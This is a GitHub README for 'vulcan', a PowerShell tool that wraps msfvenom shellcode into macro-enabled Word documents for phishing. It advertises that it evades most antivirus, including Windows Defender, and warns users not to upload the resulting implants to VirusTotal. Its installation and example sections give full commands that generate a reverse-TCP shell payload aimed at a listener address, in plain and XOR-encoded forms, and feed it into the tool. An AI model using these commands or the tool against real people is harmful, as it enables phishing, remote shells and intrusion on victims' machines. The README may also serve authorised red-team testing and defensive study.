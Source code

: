 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... Do not submit the produced implants to VirusTotal. 🤢

## Features

- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone/download `vulcan`:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Import `vulcan`:

    ```powershell
    . .\Invoke-Vulcan.ps1
    ```

3. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
    Get-Content -Path $ShellCode -AsByteStream -Raw | Invoke-Vulcan ...
```

```powershell
    wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a non-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -CaesarShift 5
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.
